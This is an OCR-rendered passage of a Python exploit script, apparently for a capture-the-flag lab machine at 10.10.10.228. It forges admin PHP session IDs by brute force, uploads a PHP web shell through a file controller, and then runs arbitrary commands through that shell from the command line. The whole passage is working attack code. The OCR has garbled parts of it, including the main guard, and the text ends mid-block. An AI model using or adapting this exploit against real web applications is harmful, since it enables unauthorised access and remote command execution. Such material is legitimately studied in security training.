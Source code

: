```py

def upload_file():
    loop = True
    print("[+] Brute frocing session ID")
    while loop:
        gen_session = makesession(admin_name)
        # print(gen_session)
        check_paul = admin(gen_session)
        if "<h3>Dashboard</h3>" in check_paul:
            cookies_dict = {"PHPSESSID": gen_session, "token": encoded_jwt}
            data = "-----------------------------21178199893857990766125057944\r\nContent-Disposition: form-data; " \
                   f"name=\"file\"; filename=\"shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php echo " \
                   f"shell_exec($_POST[\"cmd\"]);?>\r\n-----------------------------21178199893857990766125057944\r" \
                   f"\nContent-Disposition: form-data; " \
                   f"name=\"task\"\r\n\r\n{rnd_word}.php\r\n" \
                   f"-----------------------------21178199893857990766125057944--\r\n "
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0",
                       "Accept": "*/*",
                       "Accept-Language": "en-US,en;q=0.5",
                       "Accept-Encoding": "gzip, deflate",
                       "X-Requested-With": "XMLHttpRequest",
                       "Content-Type": "multipart/form-data; boundary=---------------------------21178199893857990766125057944",
                       "Content-Length": str(len(data)),
                       "Origin": "http://10.10.10.228",
                       "DNT": "1",
                       "Connection": "close",
                       "Referer": f"{url}/php/files.php"}

            upload_file = r.post(f'{url}/includes/fileController.php', headers=headers, data=data, cookies=cookies_dict,
                                 allow_redirects=True)
            print("[+] " + upload_file.text)
            print(f"Filenme: {rnd_word}")
            loop = False


def exec_file(file_name, cmd):
    post_cmd = {"cmd": cmd}
    execute = r.post(f'{url}/uploads/{file_name}.php', data=post_cmd)
    print(execute.text)


parser.add_argument('-u', action='store_true', help="upload file")
parser.add_argument('-e', action='store_true', help="execute uploaded file")
parser.add_argument("-f", help="uploaded file name without Extension")
parser.add_argument("-c", help="windows cmd Command")
args = parser.parse_args()

if  **name** == "**main**":
    try:
        if args.u:
            upload_file()
        elif args.e:
            if args.f and args.c:
                exec_file(args.f, args.c)
            else:
                print("[-] Missing argument")
        else:
```